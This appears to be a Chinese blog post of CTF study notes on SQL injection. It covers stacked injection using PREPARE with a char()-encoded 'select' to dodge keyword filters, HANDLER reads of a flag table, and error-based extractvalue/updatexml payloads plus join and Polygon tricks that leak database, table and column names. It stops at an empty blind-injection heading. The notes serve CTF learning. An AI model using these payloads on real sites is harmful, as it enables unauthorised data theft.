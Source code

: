 ```yaml
---
title: "CTF WEB知识点杂记"
date: 2020-04-06
description: "简单记录做题遇到的知识点"
categories: [
  "CTF"
]
---
```


## SQL

### 堆叠注入

`phpPDO`,`mysqli_multi_query`存在堆叠注入

1. set&prepare

   ```sql
   SET @sqli=concat(char(115,101,108,101,99,116),'* from `1919810931114514`');PREPARE hacker from @sqli;EXECUTE hacker;
   ```

2. handler

   ```mysql
   handler FlagHere open;handler FlagHere read first;#
   ```

### 报错注入

`extractvalue`和`updatexml`等 `concat(0x7e,payload,0x7e)`报错回显

结合`limit`分页及`substr`截断回显

```mysql
select extractvalue(1, concat(0x7e, database(), 0x7e));
```

*最大回显长度为34,除去`~`x2，有效长度32

```mysql
select * from users where uid =1-a(); // 爆库名

 select name from test where id=1 and (select * from (select * from test as a join test as b) as c); // 爆字段

select name from test where id=1 and (select * from (select * from test as a join test as b using(id)) as c); // 爆第二个字段，以此类推。

select * from users where Polygon(uid); // 知道某字段爆表名、库名。
```

### 盲注
